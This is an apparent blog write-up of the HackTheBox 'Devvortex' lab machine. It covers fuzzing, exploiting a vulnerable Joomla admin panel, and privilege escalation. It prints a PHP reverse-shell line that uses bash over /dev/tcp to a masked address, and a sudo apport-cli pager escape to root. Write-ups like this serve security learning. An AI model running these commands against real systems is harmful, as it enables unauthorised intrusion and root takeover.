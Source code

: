 ```yaml
---
layout: post
title: "Devvortex 8aaf1edae1e645f8a3502c240817c61c"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Devvortex

HackTheBox: Easy

<aside>
💡 Devvortex is a linux easy machine where we can practice fuzzing, exploiting vulnerabilities exposed, seversing shell’s and hashing.

</aside>

## 1: Enumeration

- Scanning ports

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled.png' | relative_url }})

Let’s look for some subdomains

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_1.png' | relative_url }})

FUZZ some routes

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_3.png' | relative_url }})

We can see a log in powered by joomla, which has its own scanning tool

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_5.png' | relative_url }})

Interesting, a version with a vulnerability

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_6.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_7.png' | relative_url }})

## 2: User flag

With this we break into admin interface, we can see a lot of .php files(**System -> Templates -> Administrator Templates.**), we can inject a rev shell

```bash
system('bash -c"bash -i > & /dev/tcp/10.10.00.000/0000 0>&1"');
```

We dive into as data, and we can find at /etc/passwod a logan user with creds for sql database

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_8.png' | relative_url }})

We hash and got the user flag

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_9.png' | relative_url }})

## 3: Priv esc

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_10.png' | relative_url }})

There is a vulnerability to esc priv we are gonna make it in this way:

```bash
sleep 60 & (segundo plano)
sudo /usr/bin/apport-cli -c /var/crash/sleep.0.crash
view report
!/bin/bash
Root...
```
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
